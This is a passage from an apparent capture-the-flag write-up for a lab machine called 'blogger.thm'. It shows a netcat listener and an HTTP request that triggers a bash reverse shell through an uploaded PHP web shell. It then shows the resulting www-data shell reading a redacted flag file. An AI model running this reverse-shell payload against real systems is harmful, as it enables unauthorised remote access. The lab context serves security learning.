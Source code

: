 # post exploitation
## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80                                             
listening on [any] 80 ...
```

### trigger reverse shell
```http
GET /assets/fonts/blog/wp-content/uploads/2022/11/aulpmqpvdgqvyyc-1668451299.9271.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.89/80+0>%261' HTTP/1.1
Host: blogger.thm
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wpdiscuz_hide_bubble_hint=1
Connection: close
```

### catch connection from target
```bash
$ nc -lvp 80                                             
listening on [any] 80 ...
connect to [192.168.49.89] from blogger.thm [192.168.89.217] 42352
bash: cannot set terminal process group (1374): Inappropriate ioctl for device
bash: no job control in this shell
<ress/assets/fonts/blog/wp-content/uploads/2022/11$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> And we got a shell!
{: .prompt-info }

## get first flag
```bash
ww-data@ubuntu-xenial:/home$ cd james
cd james
www-data@ubuntu-xenial:/home/james$ ls
ls
local.txt
www-data@ubuntu-xenial:/home/james$ cat local.txt
cat local.txt
a******************************d
```
